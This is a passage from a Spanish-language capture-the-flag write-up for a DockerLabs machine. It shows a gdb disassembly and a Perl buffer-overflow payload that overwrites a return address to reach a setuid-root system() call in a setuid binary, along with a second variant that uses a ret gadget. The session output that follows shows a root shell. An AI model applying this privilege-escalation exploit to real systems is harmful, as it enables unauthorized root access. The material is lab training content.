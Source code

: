 ```bash
   0x0000000000401375 <+11>:    mov    rdi,rax
   0x0000000000401378 <+14>:    mov    eax,0x0
   0x000000000040137d <+19>:    call   0x401050 <printf@plt>
   0x0000000000401382 <+24>:    mov    edi,0x0
   0x0000000000401387 <+29>:    call   0x401070 <setuid@plt>
   0x000000000040138c <+34>:    lea    rax,[rip+0xcf0]        # 0x402083
   0x0000000000401393 <+41>:    mov    rdi,rax
   0x0000000000401396 <+44>:    call   0x401040 <system@plt>
   0x000000000040139b <+49>:    nop
   0x000000000040139c <+50>:    pop    rbp
   0x000000000040139d <+51>:    ret
End of assembler dump.
```

La dir es `0x40136a`, pero para arrreglar el alineamiento de la pila o bien metemos una instrucción ret antes o apuntamos a `0x40136b` para evitar este problema.

```python

astu@dockerlabs:~$ cat script.pl 
#!/usr/bin/perl

$|=1;


$payload = "A" x 64;
$payload .= "B" x 8;
$payload .= pack("Q",0x40136b);

print $payload;
astu@dockerlabs:~$ (./script.pl; cat) | secure/bs64 
x
Ingrese el texto: QUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUJQkJQkJaxN
id
uid=0(root) gid=1000(astu) groups=1000(astu),100(users)
whoami
root

```

Otra opción del script (instr. ret):

```
#!/usr/bin/perl

$|=1;


$payload = "A" x 64;
$payload .= "B" x 8;
$payload .= pack("Q",0x0040101a);
$payload .= pack("Q",0x000000000040136a);

print $payload;

```

**YA ESTAMOS COMO ROOT**